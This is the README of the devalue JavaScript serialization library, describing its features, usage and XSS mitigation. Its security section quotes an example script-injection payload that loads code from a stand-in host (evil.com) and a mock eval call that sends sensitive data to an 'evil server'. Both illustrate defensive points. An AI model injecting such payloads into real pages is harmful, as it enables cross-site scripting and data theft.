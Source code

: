 # devalue

Like `JSON.stringify`, but handles

* cyclical references (`obj.self = obj`)
* repeated references (`[value, value]`)
* `undefined`, `Infinity`, `NaN`, `-0`
* regular expressions
* dates
* `Map` and `Set`

Try it out on [runkit.com](https://npm.runkit.com/devalue).

## Goals:

* Performance
* Security (see [XSS mitigation](#xss-mitigation))
* Compact output


## Non-goals:

* Human-readable output
* Stringifying functions or non-POJOs


## Usage

```js
import devalue from 'devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.


## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {userinput:"\\u003C\\u002Fscript\\u003E\\u003Cscript src=\'https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js\'\\u003E"};
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0,eval)('(' + str + ')');
```


## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it *indirectly* so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0,eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.


## See also

* [lave](https://github.com/jed/lave) by Jed Schmidt
* [arson](https://github.com/benjamn/arson) by Ben Newman
* [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
* [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo
* [jsesc](https://github.com/mathiasbynens/jsesc) by Mathias Bynens


## License

[MIT](LICENSE)
